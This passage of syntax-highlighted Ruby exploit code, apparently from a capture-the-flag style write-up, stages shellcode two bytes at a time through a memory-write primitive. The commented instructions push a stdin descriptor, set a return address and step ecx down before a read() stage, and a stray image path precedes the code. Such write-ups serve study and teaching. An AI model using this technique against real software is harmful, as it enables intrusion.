 <span class="Comment"># fd - stdin is 0</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">6a00</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># push byte 0</span>

<span class="Comment"># Return address - just ecx again</span>
<span class="Comment"># This is where read() (the function in the app, not the syscall) returns</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">5190</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># push ecx / nop</span>

<span class="Comment"># We want to basically subtract a set value from ecx, using 2-byte chunks (which</span>
<span class="Comment"># it turns out was probably unnecessary).</span>
<span class="Comment">#</span>
<span class="Comment"># To do this, we clear cl, decrement ecx, and repeat a few times.</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">30c9</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># xor cl, cl</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">4990</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># dec ecx / nop</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">30c9</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># xor cl, cl</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">4990</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># dec ecx / nop</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">30c9</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># xor cl, cl</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">4990</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># dec ecx / nop</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">30c9</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># xor cl, cl</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">4990</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># dec ecx / nop</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">30c9</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># xor cl, cl</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">4990</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># dec ecx / nop</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">30c9</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># xor cl, cl</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">4990</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># dec ecx / nop</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">30c9</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># xor cl, cl</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">4990</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># dec ecx / nop</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">30c9</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># xor cl, cl</span>
